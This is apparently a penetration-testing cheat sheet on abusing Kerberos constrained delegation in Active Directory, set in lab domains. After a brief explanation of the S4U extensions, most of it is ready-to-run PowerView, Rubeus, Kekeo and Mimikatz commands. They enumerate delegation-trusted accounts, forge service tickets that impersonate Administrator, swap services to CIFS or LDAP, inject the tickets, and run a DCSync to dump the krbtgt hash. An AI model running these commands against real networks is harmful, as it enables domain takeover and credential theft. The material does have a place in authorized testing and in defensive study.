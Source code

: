 ## General Info

If a frontend service does not use Kerberos authentication and the backend service does, it needs to be able to request a TGS to the frontend service from a KDC on behalf of the user who is authenticating against it. The S4U2Self extension enables this if the TRUSTED_TO_AUTH_FOR_DELEGATION value is present in the useraccountcontrol property.
Additionally, the frontend service can do this without requiring the password or the hash of the
user.

Similar to S4U2Self, the S4U2proxy extension requests a service ticket for the backend service on
behalf of a user. This extension depends on the service ticket obtained either through S4U2Self or
directly from a user authentication via Kerberos.

## Find Servers that has constrained delegation
```powershell
#PowerView
Get-DomainUser -TrustedToAuth
```

#Check if "TRUSTED_TO_AUTH_FOR_DELEGATION" is set and check the "msds-allowedtodelegateto" SIDS to know the SID's the account (samaccountname) can delegate to.

## Using Rubeus to request a TGS on behalf of a specific user

```powershell
#Get the hash for the account we want to use for requesting a ticket on behalf of the user when we do have a clear-text password we can convert it to a hex:
.\Rubeus.exe hash /password:lab

#Now let's use the hash to start with the asktgt command to generate a TGT for IISSvc service:
.\Rubeus.exe asktgt /user:iissvc /domain:prod.corp1.com /rc4:2892D26CDF84D7A70E2EB3B9F05C425E

#Now we have the Base64-encoded TGT for IISSvc we can use the S4U extensions to impersonate a random username and request a ticket to another service. We also need the service we are requesting the ticket for. We imidiatly inject the requested ticket to our process with the /ptt flag:
.\Rubeus.exe s4u /ticket:%TICKETNAME% /impersonateuser:%Username-to-impersonate /msdsspn:mssqlsvc/dc01.prod.corp1.com:1433 /ptt
```

## Use Rubeus to change the service

When the above action is performed we can use Rubeus to change the servicename of the ticket as long as the service is active on the same server.

```powershell
.\Rubeus.exe s4u /ticket:%TICKETNAME% /impersonateuser:administrator /msdsspn:mssqlsvc/cdc01.prod.corp1.com:1433 /altservice:CIFS /ptt
```

## Using Kekeo to Requst TGT

```powershell
.\kekeo.exe

tgt::ask /user:websvc /domain:dollarcorp.moneycorp.local /rc4:cc098f204c5887eaa8253e7c2749156f
```

## Use TGT to get TGS

```powershell
tgs::s4u

tgs::s4u /tgt:TGT_websvc@DOLLARCORP.MONEYCORP.LOCAL_krbtgt~dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:cifs /dcorp-mssql.dollarcorp.moneycorp.LOCAL
```

## Inject Ticket in Current Session

```powershell
. ..\Invoke-Mimikatz.ps1

Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL_cifs~dcorp-mssql.dollarcorp.moneycorp.LOCAL@DOLLARCORP.MONEYCORP.LOCAL.kirbi"'
```

---

## Using Rubeus to get TGS

```powershell
.\Rubeus.exe s4u /user:websvc /rc4:cc098f204c5887eaa8253e7c2749156f /impersonateuser:Administrator /msdsspn:"CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL" /ptt
```

---

## Enum Computers with contrained Delegation

```powershell
. .\PowerView_dev.ps1

Get-DomainComputer -TrustedToAuth
```

## Request TGT

```powershell
.\kekeo.exe

tgt::ask /user:dcorp-adminsrv$ /domain:dollarcorp.moneycorp.local /rc4:8c6264140d5ae7d03f7f2a53088a291d
```

## Request TGS

```powershell
tgs::s4u /tgt:TGT_dcorp-adminsrv$@DOLLARCORP.MONEYCORP.LOCAL_krbtgt~dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:time/dcorp-dc.dollarcorp.moneycorp.LOCAL|ldap/dcorp-dc.dollarcorp.moneycorp.LOCAL
```

## Using this TGS to Do DYSync

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

## Abuse Contrained Delegation with Rebeus

```powershell
.\Rubeus.exe s4u /user:dcorp-adminsrv$ /rc4:8c6264140d5ae7d03f7f2a53088a291d/impersonateuser:Administrator /msdsspn:"time/dcorp-dc.dollarcorp.moneycorp.LOCAL" /altservice:ldap /ptt
```

## DCSync Attack

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'

```

## Other Resources

[Kerberos Constrained Delegation](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-kerberos-constrained-delegation)

[Constrained Delegation Abuse: Abusing Constrained Delegation to Achieve Elevated Access | Stealthbits Technologies](https://stealthbits.com/blog/constrained-delegation-abuse-abusing-constrained-delegation-to-achieve-elevated-access/)
